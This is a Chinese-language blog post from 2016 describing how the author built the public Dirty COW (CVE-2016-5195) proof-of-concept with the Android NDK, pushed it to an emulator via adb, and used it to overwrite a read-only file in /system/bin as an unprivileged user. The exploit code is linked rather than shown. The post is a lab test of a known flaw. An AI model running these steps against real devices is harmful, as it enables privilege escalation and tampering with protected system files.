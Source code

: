 ```yaml
---
title: "Android dirtycow(CVE-2016-5195) 提权漏洞测试"
layout: post
date: 2016-10-26 14:58
headerImage: false
tag:
- dirtycow
- android
- linux
- privilge escalation
blog: true
star: false
author: b1ngz
description: 

---
```


# 0x01 概述

---

前两天在看雪上看到一篇在android上测试dirtycow漏洞的文章 - [【分享】CVE-2016-5195 dirtycow linux内核漏洞测试](http://bbs.pediy.com/showthread.php?p=1449450#post1449450)，里面测试了 [POC]( https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c
)，因为没有详细的步骤，看完有点蒙bi，决定自己动手测试一下，这里记录一下过程。

# 0x02 环境安装

---

测试使用android虚拟机，IDE用的 `android studio 2.2.2`，安装了`NDK` 等相关工具，详细可以参考 [Getting Started with the NDK](https://developer.android.com/ndk/guides/index.html)

![](/assets/images/android-dirtycow/1.png)

`SDK Platforms` 的话可以任选，这里安装了 `5.0`, `6.0`, `7.0`

![](/assets/images/android-dirtycow/2.png)

安装的时候需要翻墙～


# 0x03 POC编译

---

之前没有用过 `NDK`，搜了搜，找到篇文章 [using-c-and-c-code-in-an-android-app-with-the-ndk/](https://www.sitepoint.com/using-c-and-c-code-in-an-android-app-with-the-ndk/)，import了一个 HelloWorld 程序，这里可以通过welcome界面导入 `Hello JNI` 项目，

![](/assets/images/android-dirtycow/3.png)

不过网络不好会提示failed，也可以选择从 github 上拉取，然后手动导入

```
git clone https://github.com/googlesamples/android-ndk
```

导入后，默认的布局如下

![](/assets/images/android-dirtycow/4.png)

接着根据 [three-ways-to-use-android-ndk-cross-compiler](http://zwyuan.github.io/2015/12/22/three-ways-to-use-android-ndk-cross-compiler/) 来编译 POC，文中介绍了3种，这里选择第一种 `ndk-build`

切换到 `Project` 视图，点开 `app -> src -> main`，新建 jni 目录，然后在目录下新建三个文件

![](/assets/images/android-dirtycow/5.png)

**dirtycow.c:** [POC代码](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)


**Android.mk:** 编译相关的配置，如源文件名，编译后的文件名等，具体介绍可以参考 [android_mk](https://developer.android.com/ndk/guides/android_mk.html)

```
LOCAL_PATH := $(call my-dir)

include $(CLEAR_VARS)

LOCAL_MODULE    := dirtycow
LOCAL_SRC_FILES := dirtycow.c

include $(BUILD_EXECUTABLE)
```

**Application.mk:** 编译的架构等相关配置. 参考 [application_mk](https://developer.android.com/ndk/guides/application_mk.html)

```
# Filename: Application.mk
APP_ABI := x86
```
因为之前创建过的android虚拟机是基于`x86`架构的(跑arm的很慢)，所以 `APP_ABI` 的值设置为 `x86`，其他架构可以到 [application_mk](https://developer.android.com/ndk/guides/application_mk.html) 的 `APP_ABI` 部分查询

![](/assets/images/android-dirtycow/6.png)

然后命令行进入 `jni` 目录，使用 `ndk-build` 来编译c代码，这里需要将`ndk-build` 所在目录加入到 `PATH` 环境变量中，具体位置在 `SDK` 目录下的 `ndk-bundle`，比如我的为 `/Users/b1ng/Library/Android/sdk/ndk-bundle/`

执行完后，会在 `libs/x86` 目录下生成编译后的可执行文件

然后我们通过 adb 命令将文件 push 到设备里

```
➜  x86 git:(master) ✗ adb devices
List of devices attached
emulator-5554	device

➜  x86 git:(master) ✗ adb push ./dirtycow /data/local/tmp/dirtycow
[100%] /data/local/tmp/dirtycow
```

然后adb shell进入命令行，查看我们的poc可执行文件

```
➜  x86 git:(master) ✗ adb -s emulator-5554 shell
root@generic_x86:/ # ll /data/local/tmp/dirtycow
-rwxrwxrwx root     root         5532 2016-10-26 04:12 dirtycow
root@generic_x86:/ #

```

接着我们在 `/system/bin` 目录下创建一个普通用户没有写权限的文件，因为默认的 `/system` 目录是只读的，所以需要 `remount /system`

```
root@generic_x86:/system/bin # echo origin > test
/system/bin/sh: can't create test: Read-only file system
1|root@generic_x86:/system/bin # mount -o rw,remount /system
root@generic_x86:/system/bin # echo origin > test
root@generic_x86:/system/bin # ll test
-rw-rw-rw- root     root            7 2016-10-26 04:23 test
root@generic_x86:/system/bin # cat test
origin
```

修改权限让普通用户没有写权限

```
root@generic_x86:/system/bin # chmod 444 test
root@generic_x86:/system/bin # ll test
-r--r--r-- root     root            7 2016-10-26 04:23 test
```

切换普通用户，执行POC，修改文件内容，执行完一会就可以停掉，不然会一直循环

```
root@generic_x86:/system/bin # su shell
root@generic_x86:/system/bin $ id
uid=2000(shell) gid=2000(shell)
root@generic_x86:/system/bin $ echo 123 > test
sh: can't create test: Permission denied
1|root@generic_x86:/system/bin $ cat test
origin
root@generic_x86:/system/bin $ /data/local/tmp/dirtycow  test modify
mmap b7608000

^C
130|root@generic_x86:/system/bin $ cat test
modify
```

测试成功


# 0x04 参考

---

- [Getting Started with the NDK](https://developer.android.com/ndk/guides/index.html)
- [three-ways-to-use-android-ndk-cross-compiler](http://zwyuan.github.io/2015/12/22/three-ways-to-use-android-ndk-cross-compiler/)






